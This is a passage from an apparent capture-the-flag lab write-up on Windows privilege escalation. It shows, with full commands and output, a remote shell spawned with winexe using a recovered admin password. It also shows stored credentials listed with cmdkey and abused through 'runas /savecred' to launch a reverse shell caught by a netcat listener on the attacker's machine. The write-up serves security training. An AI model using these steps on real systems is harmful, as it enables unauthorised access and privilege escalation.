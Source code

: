 Once we get password, from our attacker machine, let's spawn a CMD shell:

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ winexe -U 'admin%password123' //10.10.174.134 cmd.exe
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin

C:\Windows\system32>
```

## passwords saved creds

Check if there are saved passwords around

```bash
C:\Users\user>cmdkey /list
cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02nfpgrklkitqatu
    Local machine persistence

    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```

We do have `admin` credentials saved here!

Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:

```
C:\Users\user>runas /savecred /user:admin C:\PrivEsc\reverse.exe
Attempting to start C:\PrivEsc\reverse.exe as user "WIN-QBA94KB3IOF\admin" ...
```

```bash
joshua@kaligra:~/Documents/thm/windows10privesc$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.100.14] from (UNKNOWN) [10.10.174.134] 49790
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

## security account manager
